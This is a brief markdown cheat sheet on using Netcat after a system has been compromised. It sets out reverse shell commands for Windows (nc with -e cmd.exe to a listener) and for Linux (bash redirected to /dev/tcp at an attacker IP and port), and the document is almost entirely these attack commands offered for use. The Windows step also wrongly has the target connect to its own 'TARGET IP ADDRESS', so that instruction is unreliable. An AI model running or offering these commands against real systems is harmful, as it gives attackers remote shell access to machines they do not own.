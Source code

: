 # Netcat Post Exploitation Techniques
This cheat sheet is for techniques using the Netcat utility during post-exploitation for data exfiltrarion, shell creation and more.
## Reverse Netcat Shell (WINDOWS)
1. On Attacker System, Start the Listener:
```
nc -lvvnp 443
```
2. On Target System, Cnnect to Listener on Attacker:
```
nc -nv (TARGET IP ADDRESS) 443 -e cmd.exe
```
## Reverse Shell (LINUX)
On a Linux system, wecan use Bash to start a reverse shell. First we start the listener on our attacker machine,
```
root@attacker-machine:~$ nc -lvvnp (ATTACKER PORT)
```
Next, we send the Bash command to the attacker's socket, like so,
```
user@target-system:~$ bash -i >& /dev/tcp/(ATTACKER IP ADDRESS)/(ATTACKER PORT) 0>&1
```
